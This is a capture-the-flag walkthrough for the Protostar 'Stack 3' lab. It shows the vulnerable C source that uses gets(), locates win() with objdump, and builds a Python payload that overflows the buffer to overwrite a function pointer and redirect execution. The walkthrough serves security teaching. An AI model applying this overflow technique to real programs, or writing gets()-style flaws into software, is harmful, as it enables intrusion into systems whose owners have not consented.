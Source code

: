 # Stack 3

Stack 3 source
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

We have to find the address of the win function in the text segment. To do this we use objdump.

```shell
objdump -S stack3 | grep win
```
Output:
```shell
08048424 <win>:
```

Now we need to write the address 0x08048424 into the function pointer.

```python3
print( "A"*64+"\x24\x84\x04\x08")
```

Finally, to feed the exploit to the program we run:
```shell
python stack3.py | /opt/protostar/bin/stack3
```
And we get an output of
```shell
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
